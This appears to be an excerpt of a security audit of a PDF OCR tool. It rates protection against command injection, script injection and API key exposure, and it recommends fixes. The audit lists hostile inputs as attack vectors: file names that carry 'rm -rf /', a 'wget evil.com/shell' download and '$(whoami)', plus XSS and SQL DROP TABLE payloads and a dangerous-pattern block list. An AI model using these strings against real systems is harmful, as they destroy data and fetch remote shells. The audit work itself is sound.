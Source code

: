 **Attack Vectors:**
- `malicious.pdf; rm -rf /` - **NOT PROTECTED**
- `file.pdf && wget evil.com/shell` - **NOT PROTECTED**
- `doc.pdf$(whoami)` - **NOT PROTECTED**

#### **Script Injection in Prompts - MEDIUM RISK** ⚠️
```python
# PARTIAL PROTECTION: Input validation exists but may be bypassed
# utils.py:validate_input() - Only removes non-printable chars
prompt = custom_prompt or self._cached_prompt  # Direct use in API calls
```

**Attack Vectors:**
- `<script>alert('xss')</script>` - **PARTIALLY PROTECTED**
- `'; DROP TABLE users; --` - **PARTIALLY PROTECTED**
- Template injection patterns - **NOT PROTECTED**

#### **Recommendations:**
```python
# 1. Add filename sanitization
def sanitize_filename(filename: str) -> str:
    return re.sub(r'[^\w\-_\.]', '', filename)

# 2. Enhanced prompt validation  
def validate_prompt(prompt: str) -> str:
    dangerous_patterns = ['<script', '${', '<%=', 'eval(']
    for pattern in dangerous_patterns:
        if pattern in prompt.lower():
            raise ValueError("Potentially dangerous prompt detected")
    return prompt
```

---

### **3. API Key Exposure** ✅ **WELL PROTECTED**

#### **Found Protections:**
```python
# pdf_ocr.py:__init__() - Line 89
self.logger.info("OCR processor initialized successfully")  # No API key logged

# pdf_ocr.py:model property - Line 134  
self.logger.debug(f"Initialized Gemini model: {self.model_name}")  # Only model name
```

#### **Security Tests Passed:**
- ✅ API keys not in log files
- ✅ API keys not in error messages  
- ✅ API keys not in debug output
- ✅ API keys not in exception tracebacks
- ✅ API keys not in object representations

#### **Recommendation:** ✅ **No action needed** - Excellent protection

---